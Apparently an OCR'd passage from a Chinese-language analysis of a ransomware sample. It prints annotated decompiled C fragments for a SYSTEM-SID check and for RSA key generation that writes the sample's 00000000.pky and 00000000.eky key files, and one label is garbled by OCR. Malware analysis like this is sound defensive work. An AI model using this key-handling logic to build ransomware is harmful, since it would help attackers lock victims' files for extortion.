 4.  创建批处理脚本 加密器 Read_Me@.txt 加密其他用户下的文件

### 6.1.2 GetUsersidAndCmp 获取当前用户SID并与系统的SID作比较

```c
memset(&v4, 0, 0x254u);                 // 将buff缓冲区清零  

if ( GetCurrentUserSID(&Buffer) )        // 获取当前用户的SID  
{  
v0 = wcsicmp(aS1518, &Buffer);         // 比较当前的SID是否是S-1-5-18->系统的SID  
}  
```

从注册表中获取到当前用户的SID并于系统的SID做比较

### 6.1.3 CreatePkyAndEky 创建 pky 和 eky 文件

```c
if ( !GetCSPHandle((char) this) )            // 获取CSP服务程序句柄  

{  

DestoryHandle(v3);                          // 如果失败则释放资源  
return 0;  

}  

if ( lpFileName )  

{  

if ( !ImportPubKey(v3, lpFileName) )        // 当00000000.pky不存在时 条件成立  

{  

if ( !CryptImportKey_Addr(v3[1], &pbData, 0x114, 0, 0, v3 + 3)// 导入RSA公钥  
|| !CryptGenKey(v3[1], (int)(v3 + 2))   // 生成可导出的2048位RSA签名密钥  
|| !CreatePkyFile(v3[1], v3[2], 6u, lpFileName) )// 创建00000000.pky文件 并写入生成的RSA公钥  

{  

goto LABEL_19;  

}  

if ( pky_str )  

CreateEkyFile((int)v3, pky_str);        // 创建00000000.eky文件 并写入加密后的RSA私钥  

if ( !ImportPubKey(v3, lpFileName) )      // 导入00000000.pky的公钥  

{  

BEL_19:  

DestoryHandle(v3);                      // 如果导入失败释放句柄  

return 0;  

}  

}  

v5 = v3[3];                                 // 当00000000.pky存在时 直接退出函数  
```
